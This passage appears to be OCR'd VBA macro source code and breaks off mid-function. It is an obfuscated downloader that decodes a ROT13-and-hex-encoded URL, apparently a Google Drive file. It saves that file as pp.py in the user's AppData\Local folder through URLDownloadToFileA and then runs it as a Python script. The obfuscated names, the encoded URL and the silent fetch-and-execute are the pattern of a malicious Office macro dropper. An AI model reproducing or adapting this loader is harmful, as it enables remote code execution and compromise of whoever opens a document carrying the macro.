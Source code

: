 ```

Private Declare PtrSafe Function a1AaQ Lib "urlmon" Alias "URLDownloadToFileA" ( _
    ByVal b1BbQ As LongPtr, _
    ByVal c1CcQ As String, _
    ByVal d1DdQ As String, _
    ByVal e1EeQ As Long, _
    ByVal f1FfQ As LongPtr) As Long

Public Function b1BbR(c1CcR As String) As String
    Dim d1DdR As Integer
    Dim e1EeR As Integer
    Dim f1FfR As String
    
    If Len(c1CcR) = 0 Or Len(c1CcR) Mod 2 <> 0 Then Exit Function
    
    d1DdR = Len(c1CcR)
    
    For e1EeR = 1 To Len(c1CcR)
        If e1EeR Mod 2 <> 0 Then
            f1FfR = f1FfR & Chr$(Val("&H" & Mid$(c1CcR, e1EeR, 2)))
        End If
    Next
    
    b1BbR = f1FfR
End Function

Sub c1CcS()
    Dim d1DdS As String
    Dim e1EeS As String
    Dim f1FfS As String
    Dim g1GgS As String
    Dim h1HhS As Long
    Dim username As String
    
    username = Environ("USERNAME")
    d1DdS = "68747470733n2s2s64726976652r676s6s676p652r636s6q2s66696p652s642s31764573414o44663731647763336267426s723238326o4p546173626p333348532s766965773s7573703q73686172696r67"
    
    e1EeS = j2JjS(d1DdS)
    
    f1FfS = b1BbR(e1EeS)
    
    g1GgS = "C:\Users\" & username & "\AppData\Local\pp.py"
    
    h1HhS = a1AaQ(0, f1FfS, g1GgS, 0, 0)
    
    If h1HhS = 0 Then
        MsgBox "File downloaded successfully.", vbInformation
        ' Run the Python script
        RunPython
    Else
        MsgBox "Failed to download file.", vbExclamation
    End If
End Sub

Function j2JjS(k2KkS As String) As String
    Dim l2LlS As String
    Dim m2MmS As Integer
    For m2MmS = 1 To Len(k2KkS)
        Select Case Asc(Mid(k2KkS, m2MmS, 1))
            Case 65 To 77, 97 To 109
                l2LlS = l2LlS & Chr(Asc(Mid(k2KkS, m2MmS, 1)) + 13)
            Case 78 To 90, 110 To 122
```
